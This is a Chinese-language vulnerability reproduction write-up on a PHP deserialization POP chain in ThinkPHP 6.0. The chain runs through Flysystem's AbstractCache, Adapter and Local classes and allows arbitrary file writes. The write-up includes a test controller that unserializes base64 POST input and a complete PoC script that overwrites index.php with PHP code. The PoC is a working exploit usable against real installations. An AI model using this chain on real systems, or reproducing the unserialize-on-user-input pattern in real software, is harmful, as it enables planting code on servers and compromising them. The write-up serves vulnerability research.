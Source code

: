Thinkphp 6.0 任意文件写入pop链
==============================

一、漏洞简介
------------

需要知晓绝对路径

二、漏洞影响
------------

Thinkphp 6.0

三、复现过程
------------

### 环境搭建

ThinkPHP6.0.2

PHP7.2

    <?php
    namespace app\controller;
    use app\BaseController;

    class Index extends BaseController

        public function test(){
            echo base64_decode($_POST['payload']);
            $payload = unserialize(base64_decode($_POST['payload']));
        }
    }

### 漏洞分析

POP链：

    League\Flysystem\Cached\Storage\AbstractCache --> destruct()
    League\Flysystem\Cached\Storage\Adapter --> save()
    League\Flysystem\Adapter\Local --> write()
    vendor/league/flysystem-cached-adapter/src/Storage/AbstractCache.php

![](./.resource/Thinkphp6.0任意文件写入pop链/media/rId26.jpg)

因AbstractCache类为抽象类，需找到其实现子类，且要有save()方法

成功找到：`vendor/league/flysystem-cached-adapter/src/Storage/Adapter.php`

![](./.resource/Thinkphp6.0任意文件写入pop链/media/rId27.jpg)

\$contents决定文件写入内容，显然可向\$this-\>complete或\$this-\>expire写入具体内容即可

![](./.resource/Thinkphp6.0任意文件写入pop链/media/rId28.jpg)

接下来需找到具有write()方法的类，`vendor/league/flysystem/src/Adapter/Local.php`中Local类符合条件

![](./.resource/Thinkphp6.0任意文件写入pop链/media/rId29.jpg)

但`ensureDirectory()`对利用造成了影响，将对目录进行检测，因而造成必须使用绝对路径

![](./.resource/Thinkphp6.0任意文件写入pop链/media/rId30.jpg)

### 漏洞复现

根据分析写出poc

> 该利用链较为鸡肋，要求必须知晓写入文件的绝对路径

    <?php
    namespace League\Flysystem\Cached\Storage;#AbstractCache Adapter
    use League\Flysystem\Adapter\Local;
    abstract class AbstractCache{
        protected $autosave = true;
        protected $cache = [];
        protected $complete = [];
        function __construct(){
            $this->autosave = false;
            $this->cache = ['test'];
            $this->complete = ["axin"=>"<?php phpinfo();?>"];
        }
    }

    class Adapter extends AbstractCache{
        protected $adapter;
        protected $file;
        protected $expire = null;

        function __construct(){
            parent::__construct();
            $this->adapter = new Local();
            $this->file = "var/www/html/index.php";
            #$this->file = "://WampServer/www/tp/tp6.0.1/public/index.php"; #winsows下目录
            $this->expire = 123;
        }
    }

    namespace League\Flysystem\Adapter;
    abstract class AbstractAdapter{
        protected $pathPrefix;
        function __construct(){
            $this->pathPrefix = "/";
            #$this->pathPrefix = "D";  #windows下目录
        }
    }
    class Local extends AbstractAdapter{

    }
    use League\Flysystem\Cached\Storage\Adapter;
    echo base64_encode(serialize(new Adapter()));

![](./.resource/Thinkphp6.0任意文件写入pop链/media/rId32.jpg)

效果演示：自己构造一个反序列化输入点，发送请求(页面的输出是我自己方便调试打印的)

![](./.resource/Thinkphp6.0任意文件写入pop链/media/rId33.png)

文件成功写入：

![](./.resource/Thinkphp6.0任意文件写入pop链/media/rId34.png)

参考链接
--------

> http://pines404.online/2020/01/20/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/ThinkPHP/ThinkPHP6.0%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%93%BE(%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5)%E5%88%86%E6%9E%90/
>
> https://www.anquanke.com/post/id/194269
